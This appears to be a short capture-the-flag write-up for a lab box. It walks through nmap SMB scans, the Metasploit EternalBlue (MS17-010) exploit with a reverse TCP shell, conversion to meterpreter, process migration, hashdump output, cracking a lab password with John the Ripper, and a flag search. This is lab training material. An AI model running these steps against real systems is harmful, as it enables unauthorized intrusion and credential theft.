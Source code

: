 # Eternal Blue

## Scaning
Original nmap scan tells you the smb service ports

the following shows what they are vulnerable to
```bash
nmap -p 139,445 -Pn --script smb-enum* $IP

nmap -p 134,445 --script vuln $IP
```

from here you can use metasplot to exploit the box using the following exploit


## Exploit and escalate

```
exploit/windows/smb/ms17_010_eternalblue
```

set the type of shell needed for the exercise

```
set payload windows/x64/shell/reverse_tcp
```

With these settings the box can be exploited and you can get a win shell, after this you can ctrl-z and start on working to get a metasploit shell

```
post/multi/manage/shell_to_meterpreter
```

use the above exploit with the session number of your connected shell from the previous exploit you have set as a background process

once connected through metasploit you have to upgrade the process to run as admin using:

```
migrate -P <process number of powershell>
```

now that you have admin find the users and the password hashes with

```
hashdump
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

## Password cracking

the password can be cracked using johntheripper

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashs.txt
```

```
password: alqfna22
```

## Flags

To find the flags just use the following and cat out all the files

```
search -f flag*.txt
```
